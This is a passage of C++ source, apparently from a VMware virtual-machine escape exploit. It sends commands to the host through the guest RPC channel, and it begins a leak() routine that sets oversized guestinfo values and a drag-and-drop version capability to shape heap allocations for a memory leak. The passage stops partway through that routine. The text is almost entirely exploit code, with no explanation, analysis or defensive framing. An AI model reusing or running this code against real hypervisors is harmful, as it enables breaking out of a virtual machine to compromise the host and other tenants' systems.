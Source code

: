 ```cpp=
    char *data;
    channel_open(&tmp.cookie1,&tmp.cookie2,&tmp.num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd)+0x10,cmd,&res);

    channel_recv_reply_len(tmp.cookie1,tmp.cookie2,tmp.num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(tmp.cookie1,tmp.cookie2,tmp.num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    channel_recv_finish(tmp.cookie1,tmp.cookie2,tmp.num,&res);
    if(!res){
        printf("fail to recv finish\n");
    }

    channel_close(tmp.cookie1,tmp.cookie2,tmp.num,&res);
    if(!res){
        printf("fail to close channel\n");
        return;
    }
}
void leak(){
    struct channel chan[10];
    int res=0;
    int len,i;	
    char pay[8192];
    char *s1 = "info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *data;
    char *s2 = "info-get guestinfo.a";
    char *s3 = "1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *s4 = "tools.capability.dnd_version 4";
    char *s5 = "vmx.capability.dnd_version";
    //init data
    run_cmd(s1); // set the message len to be 0x100, so when we call info-get ,we will call malloc(0x100);
    run_cmd(s4);


    //first step 
    channel_open(&chan[0].cookie1,&chan[0].cookie2,&chan[0].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
```